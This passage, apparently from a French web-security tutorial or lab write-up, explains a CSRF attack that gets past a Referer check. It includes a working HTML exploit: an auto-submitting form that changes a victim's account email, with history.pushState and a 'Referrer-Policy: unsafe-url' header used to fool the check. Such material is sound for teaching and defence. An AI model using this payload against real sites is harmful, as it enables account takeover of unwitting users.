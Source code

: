 On obtient un template qui ressemble à ça :

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="ABAB@gmail.com" />
        </form>
        <script>
            history.pushState("", "", "/?vulnerable-website.com")
            document.forms[0].submit();
        </script>
    </body>
</html>
```
> De nombreux navigateurs suppriment désormais la queryString du header `Referer` par défaut.
On peut contrer ce comportement en s'assurant que la réponse contenant notre exploit a le header `Referrer-Policy: unsafe-url` défini (dans le head)